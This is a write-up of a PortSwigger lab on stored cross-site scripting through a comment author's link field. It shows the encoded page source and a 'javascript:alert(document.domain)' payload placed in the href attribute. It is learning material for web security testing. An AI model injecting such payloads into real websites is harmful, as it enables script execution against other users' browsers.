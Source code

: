 # Stored XSS into anchor `href` attribute with double quotes HTML-encoded

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-href-attribute-double-quotes-html-encoded), you'll learn: Stored XSS into anchor `href` attribute with double quotes HTML-encoded! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains a [stored cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the comment functionality. To solve this lab, submit a comment that calls the `alert` function when the comment author name is clicked.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-8/images/Pasted%20image%2020221229065839.png)

**In the home page, we can view other posts:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-8/images/Pasted%20image%2020221229065857.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-8/images/Pasted%20image%2020221229065904.png)

And we can leave some comments.

**Let's try to inject HTML code:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-8/images/Pasted%20image%2020221229070058.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-8/images/Pasted%20image%2020221229070115.png)

**View source page:**
```html
<section class="comment">
    <p>
    <img src="/resources/images/avatarDefault.svg" class="avatar">
    <a id="author" href="<h1>&quot;Test&quot;</h1>">&lt;h1&gt;"Test"&lt;/h1&gt;</a> | 29 December 2022
    </p>
    <p>&lt;h1&gt;"Test"&lt;/h1&gt;</p>
    <p></p>
</section>
```

As you can see, **our `<>"` is HTML encoded.**

**However, we can still inject JavaScript code in the `<a>` tag's `href` attribute:**
```js
javascript:alert(document.domain)
```

In here, we're using the `javascript` pseudo-protocol to execute script.

**Let's try to exploit it:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-8/images/Pasted%20image%2020221229070524.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-8/images/Pasted%20image%2020221229070540.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-8/images/Pasted%20image%2020221229070546.png)

Boom, we successfully exploited stored XSS.

# What we've learned:

1. Stored XSS into anchor `href` attribute with double quotes HTML-encoded